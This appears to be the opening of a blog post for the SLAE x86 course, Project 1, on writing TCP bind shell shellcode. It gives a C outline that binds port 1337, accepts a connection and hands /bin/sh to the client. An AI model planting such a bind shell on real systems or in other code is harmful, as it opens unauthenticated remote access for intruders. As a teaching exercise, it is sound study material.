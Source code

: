 # SLAE x86 - Project 1

# Tasks

Create a Shell_Bind_TCP shellcode
- Binds to a port  
- Execs Shell on incoming connection 

- Port number should be easily configurable

# Create a Shell_Bind_TCP shellcode 

The first task is to create shellcode that binds to a TCP port and executes a shell when connected to. I will be using `execve()` in my example code.

My assembly code is documented throughout, however, I will step through each piece in this blog post.

## Bind Shell Overview

The general outline of C code is below and more details can be read [here](https://anubissec.github.io/Creating-a-TCP-Bind-Shell/#):
```c
// Create socket  
host_sockid = socket(PF_INET, SOCK_STREAM, 0);  

// Initialize sockaddr struct to bind socket using it  
hostaddr.sin_family = AF_INET;  
hostaddr.sin_port = htons(1337);  
hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  

// Bind socket to IP/Port in sockaddr struct  
bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
    
// Listen for incoming connections  
listen(host_sockid, 2);  

// Accept incoming connection, don't store data, just use the sockfd created  
client_sockid = accept(host_sockid, NULL, NULL);  

// Duplicate file descriptors for STDIN, STDOUT and STDERR  
dup2(client_sockid, 0);  
dup2(client_sockid, 1);  
dup2(client_sockid, 2);  

// Execute /bin/sh  
execve("/bin/sh", NULL, NULL);  
close(host_sockid);  
    
return 0;
```
